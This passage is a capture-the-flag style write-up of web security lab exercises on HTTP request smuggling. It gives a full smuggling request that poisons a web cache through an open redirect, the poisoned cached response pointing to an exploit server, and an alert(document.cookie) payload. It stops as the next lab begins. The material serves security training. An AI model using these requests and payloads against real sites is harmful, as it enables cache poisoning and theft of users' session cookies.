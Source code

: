     HTTP/1.1 301 Moved Permanently
    Location: //attacker-website.com/example/

### LAB: Exploiting HTTP request smuggling to perform web cache poisoning
Notice an open redirection at the `Next blog` function. Send this request:

    POST / HTTP/1.1
    Host: 0a95006903259c3a83e99b2e0061008d.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 179
    Transfer-Encoding: chunked

    0

    GET /post/next?postId=6 HTTP/1.1
    Host: exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 50

    x=

Because of the HTTP smuggling attack, when the response arrive at the browser, it will look for the script `/resources/js/tracking.js`, which will result in this request received by the server:

    GET /post/next?postId=6 HTTP/1.1
    Host: exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 50

    x=GET /resources/js/tracking.js HTTP/2
    Host: 0a95006903259c3a83e99b2e0061008d.web-security-academy.net

The server will respond with a `302 Found` response which will redirect to our exploit server. On the other hand, the cache server indicates that the response for `/resources/js/tracking.js` can be cached (`tracking.js` is a static file). Therefore, when the victim request for `/resources/js/tracking.js` (automatically does by the browser if it is not cached before when he visits the home page), he is served with the cached response:

    HTTP/2 302 Found
    Location: https://exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net/post?postId=7
    X-Frame-Options: SAMEORIGIN
    Cache-Control: max-age=30
    Age: 12
    X-Cache: hit
    Content-Length: 0

This response will redirect the victim to our exploit server and execute our code. At the exploit server, change `file:/post` to match the path and add this script to the body:

    alert(document.cookie)

### LAB: Exploiting HTTP request smuggling to perform web cache deception
Same as above lab. First send this request:
